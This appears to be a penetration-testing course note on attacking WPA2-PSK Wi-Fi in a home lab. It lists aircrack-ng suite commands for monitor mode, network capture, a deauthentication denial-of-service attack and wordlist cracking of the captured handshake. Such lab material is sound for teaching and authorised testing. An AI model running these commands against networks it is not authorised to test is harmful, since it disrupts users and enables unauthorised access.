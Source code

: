 # 7. Wireless Attacks

## Wireless penetration testing

➡️ A **Wireless Penetration Test** involves the assessment of a wireless network’s security, including `WPA2-PSK` and `WPA2-Enterprise`, by:

- evaluating PSK strength
- reviewing nearby networks
- assessing guest networks
- checking network access to identify vulnerabilities

**Tools**

- Wireless card (`e.g.` Alfa ... / Kali compatible adapters)
  - check [Best Kali Linux Compatible USB Adapters 2024 – WirelesSHack](https://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles.html)
- Router
- Laptop

### The Hacking process (WPA2 PSK)

➡️ **Place**

- Place wireless card into monitor mode

➡️ **Discover**

- Discover information about network - Channel, BSSID, etc

➡️ **Select**

- Select network and capture data

➡️ **Perform**

- Perform deauthentication attack (optional)

➡️ **Capture**

- Capture WPA handshake

➡️ **Attempt**

- Attempt to crack the handshake to get the password

---

## WPAPS2 Exploit

> 📌 Check my [OpenWrt & WiFi Exploitation](https://blog.syselement.com/home/home-lab/misc/openwrt-wifi-hack) home lab done with a `TP-Link EAP225 v2` and OpenWrt for a more in depth setup process

[Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=Main) is a complete suite of command line tools to assess WiFi network security.

- Connect the WiFi adapter to the host computer, and connect to the Kali VM

```bash
# Check for card presence
iwconfig

    wlan0     IEEE 802.11  ESSID:off/any  
              Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
```

➡️ [airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)

- **Place** the card into monitor mode

```bash
# Kill unnecessary processes
sudo airmon-ng check kill

# Set card in monitor mode
sudo airmon-ng start wlan0

    PHY	Interface	Driver		Chipset

    phy0	wlan0		rtw_8822bu	ASUSTek Computer, Inc. 802.11ac NIC
            (monitor mode enabled)

# Check
iwconfig
    wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
```

➡️ [airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)

- Search the area and **discover** SSIDs
- **Select** the network to capture data from

```bash
mkdir -p $HOME/tcm/peh/wifi && cd $HOME/tcm/peh/wifi

sudo airodump-ng wlan0

# Capture the handshake
sudo airodump-ng -c 6 --bssid 22:66:CF:7D:D6:14 -w capture wlan0
```

![airodump-ng](7-wirelessassets/image-20250221082555755.png)

➡️ A **Deauthentication (Deauth) Attack** is a type of **Wi-Fi denial-of-service (DoS) attack** where an attacker forcibly disconnects devices from a wireless network by sending **fake deauthentication frames** to the target device or access point, and capture the handshake when the device re-connects to the Wi-Fi network.

➡️ [aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

- **Perform** de-auth attack and **capture** WPA handshake

```bash
# De-auth attack
sudo aireplay-ng -0 1 -a 22:66:CF:7D:D6:14 -c 48:E1:E9:E6:91:02 wlan0
```

![aireplay-ng](7-wirelessassets/2025-02-21_08-33-58_895.png)

➡️ [aircrack-ng](https://www.kali.org/tools/aircrack-ng/)

- Attempt **cracking** of the captured handshakes

```bash
ls

capture-01.cap
capture-01.csv
capture-01.kismet.csv
capture-01.kismet.netxml
capture-01.log.csv

# Create a wordlist, with the testing WiFi lab password

# Crack the handshake
aircrack-ng -w wordlist.txt -b 22:66:CF:7D:D6:14 capture-01.cap
```

![aircrack-ng](7-wirelessassets/2025-02-21_08-39-18_896.png)

---

